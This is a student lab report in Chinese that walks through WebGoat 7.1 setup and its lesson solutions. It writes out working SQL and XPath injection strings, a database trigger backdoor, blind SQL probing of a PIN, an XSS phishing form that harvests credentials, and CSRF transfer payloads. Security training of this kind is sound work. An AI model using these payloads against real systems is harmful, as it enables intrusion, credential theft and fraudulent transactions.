


 


<center><font face="Arial" size="6">WebGoat Setup and Usag& Injection and XSS & Web Attack</font>


<center>
    <font face="楷体" size="5">姓名：欧翌昕</font>
</center>

<center>
    <font face="楷体" size="5">专业：软件工程</font>
</center>
<center>
    <font face="楷体" size="5">学号：3190104783</font>
</center>

<center>
    <font face="楷体" size="5">课程名称：安全编程技术</font>
</center>

<center>
    <font face="楷体" size="5">指导老师：胡天磊</font>
</center>


<center>
    </font><font face="黑体" size="5">2020~2021春夏学期 2020 年 5 月 26 日</font>
</center>

# 1 WebGoat Setup and Usage

### 1.1 WebGoat 安装

首先安装 Docker，本机实验环境如下：


在新主机上首次安装 Docker Engine 之前，需要设置 Docker 存储库。 之后可以从存储库安装和更新Docker。

更新 apt 软件包索引并安装软件包，以允许 apt 通过 HTTPS 使用存储库。

```shell
 sudo apt-get update

 sudo apt-get install \
    apt-transport-https \
    ca-certificates \
    curl \
    gnupg \
    lsb-release
```

添加 Docker 的官方 GPG 密钥。

```shell
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
```

使用以下命令来设置稳定的存储库。

```shell
echo \
  "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu \
  $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
```

更新apt软件包索引，并安装最新版本的Docker Engine和容器。

```shell
sudo apt-get update

sudo apt-get install docker-ce docker-ce-cli containerd.io
```

通过运行hello-world映像来验证Docker Engine是否已正确安装。


使用如下命令，下载 WebGoat-7.1 镜像：

```shell
sudo docker pull webgoat/webgoat-7.1
```

查看已下载镜像，观察到 WebGoat-7.1 已下载成功。


使用如下命令，启动容器运行 WebGoat：

```shell
sudo docker run -p 8080:8080 -t webgoat/webgoat-7.1
```

本机浏览器打开 http://127.0.0.1:8080/WebGoat/login 即可使用 WebGoat。

### 1.2 WebGoat使用


输入默认创建的用户名及密码即可登录。


---


# 2 Injection and XSS

## 2.1 Injection Flaws

### 2.1.1 Command Injection


### 2.1.2 Numeric SQL Injection


### 2.1.3 Log Spoofing


可以利用换行，在日志中造成登陆成功的假象。在用户名一栏输入如下字符串：

```
Alice%0d%0aLogin Succeeded for username: admin
```

结果如下：


### 2.1.4 XPATH Injection


输入自己账户名和密码测试一下，结果如下：


在用户名一栏输入如下字符串，密码任意输入：

```
Mike' or 1 or '1
```

结果如下：


### 2.1.5 String SQL Injection


可输入以下字符串：

```
Smith' or 1=1--
```

结果如下：



### 2.1.6 Database Backdoors


可输入以下字符串：

```
101; update employee set salary=100000000 where userid=101--
```

结果如下：


可输入以下字符串：

```
101;CREATE TRIGGER myBackDoor BEFORE INSERT ON employee FOR EACH ROW BEGIN UPDATE employee SET email='john@hackme.com' WHERE userid = NEW.userid
```

结果如下：


### 2.1.7 Blind Numeric SQL Injection


可采用二分法确定 `pin` 的取值。

```
101;select pin from pins where cc_number =1111222233334444 and pin<5000
```

结果合法。

```
101;select pin from pins where cc_number =1111222233334444 and pin<2500
```

结果合法。

```
101;select pin from pins where cc_number =1111222233334444 and pin<1300
```

结果非法。

```
101;select pin from pins where cc_number =1111222233334444 and pin>2000
```

结果合法。

```
101;select pin from pins where cc_number =1111222233334444 and pin>2300
```

结果合法。

```
101;select pin from pins where cc_number =1111222233334444 and pin>2400
```

结果非法。

```
101;select pin from pins where cc_number =1111222233334444 and pin<2350
```

结果非法。

```
101;select pin from pins where cc_number =1111222233334444 and pin>2375
```

结果非法。

```
101;select pin from pins where cc_number =1111222233334444 and pin<2363
```

结果非法。

```
101;select pin from pins where cc_number =1111222233334444 and pin>2367
```

结果非法。

```
101;select pin from pins where cc_number =1111222233334444 and pin=2364
```

结果合法，确定 `pin` 的取值为2364。

### 2.1.8 Blind String SQL Injection


首先确定`name`存储的字符串的长度，经试验长度为4，所输入的字符串如下：

```
101;select name from pins where cc_number=4321432143214321 and length(name)=4
```

对可能的表示名字的字符串进行爆破，最终确定`name`存储的字符串为`Jill`。

```
101;select name from pins where cc_number=4321432143214321 and substr(name,1,4)='Jill'
```


## 2.2 Cross-Site Scripting

### 2.2.1 Phishing with XSS


使用XSS，可以将其他元素添加到现有页面。首先将代码注入一个form，然后需要一个读取表单的脚本将收集的信息发送到攻击者。

最终输入的字符串如下：

```
</form>
<script>function hack(){ 
XSSImage=new Image; XSSImage.src="http://127.0.0.1:8080/WebGoat/catcher ？ PROPERTY=yes&user="+ document.phish.user.value + "&password=" + document.phish.pass.value;} 
</script>

<form name="phish"><br><br><HR><H3>
This feature requires account login:</H3 ><br><br>
Enter Username:<br><input type="text" name="user"><br>
Enter Password:<br><input type="password" name = "pass"><br>
<input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
```

输入后将看到一个提醒输入用户名和密码的表单如下：


填写这些信息并点击login按钮，信息将被收集并发送的给攻击者。

### 2.2.2 Stored XSS Attacks


在`Message`消息框中输入以下字符串：

```
<script>alert(1)</script>
```

点击 Submint 按钮后在 Message List 中生成了一个链接。点击后弹出消息提示框框，结果如下：


### 2.2.3 Reflected XSS Attacks



在 access code 一栏输入以下字符串：

```
<script>alert(1)</script>
```

点击 Purchase 按钮后弹出消息提示框，结果如下：


### 2.2.4 Cross Site Request Forgery (CSRF)


需要在消息框中嵌入HTML代码，此HTML代码应包含链接到不是真实图像的URL的图像标记？ 将仅在Web服务器上启动事务。

因此，使用标题为“test”并输入在 Message 输入框中输入以下字符串：

```

```

点击 Submit 按钮创建新消息，在 Message List 中生成了一个链接。点击后将下载消息并将内容显示为HTML，结果如下：


### 2.2.5 CSRF Prompt By-Pass


使用标题为“test”并输入在 Message 输入框中输入以下字符串：

```
<iframe
    src="attack?Screen=1471017872&menu=900&transferFunds=5000">
</iframe>

<iframe
    src="attack?Screen=1471017872&menu=900&transferFunds=CONFIRM">
</iframe>
```

点击 Submit 按钮创建新消息，在 Message List 中生成了一个链接，点击链接结果如下：


### 2.2.6 CSRF Token By-Pass


首先要嵌入一个框架（F1），在 F1 中找 Token，然后在嵌入第二个框架（F2），这个框架是转帐的链接，需要带上 token。

使用标题为“test”并输入在 Message 输入框中输入以下字符串：

```
<script>
function GetToken(){
    var token = document.getElementById('F1').contentDocument.getElementsByTagName('form')[0][1].value;
    LoadF2(token);
}

function LoadF2(token){
    document.getElementById('F2').src = 'attack?Screen=803158781&menu=900&transferFunds=5000&CSRFToken='+token;
}
</script>


<iframe src='attack?Screen=803158781&menu=900&transferFunds=main' onload='GetToken()' id='F1'>

</iframe>

<iframe src='' id='F2'>

</iframe>
```

点击 Submit 按钮创建新消息，在 Message List 中生成了一个链接，点击链接结果如下：


### 2.2.7 HTTPOnly Test


---

当不开启 HTTPOnly 时，点击 Read Cookie 按钮，可以顺利读取 Cookie，结果如下：


而开启后再次点击则弹出空白消息提示框，结果如下：


# 3 Web Attack

## 3.1 Code Quality

### Discover Clues in the HTML


打开 Web 开发者工具，通过查看器检查元素。


观察发现注释中遗留了账号为 admin，密码为 adminpw。将它们输入对应的文本框，点击 Login 按钮，结果如下：


## 3.2 Concurrency

### 3.2.1 Thread Safety Problems


打开两个浏览器模拟两个用户同时发送请求，一个输入 dave，一个输入 jeff，快速点击两个 Submit 按钮，结果如下：


### 3.2.2 Shopping Cart Concurrency Flaw


打开两个浏览器模拟两个用户同时发送请求，一个先把贵的物品放入购物车，然后点 Purchase按钮；另一个再把便宜的物品放入购物车，点击 Update Cart 按钮，然后第一个就可以以第二个的价格确认购买，结果如下：


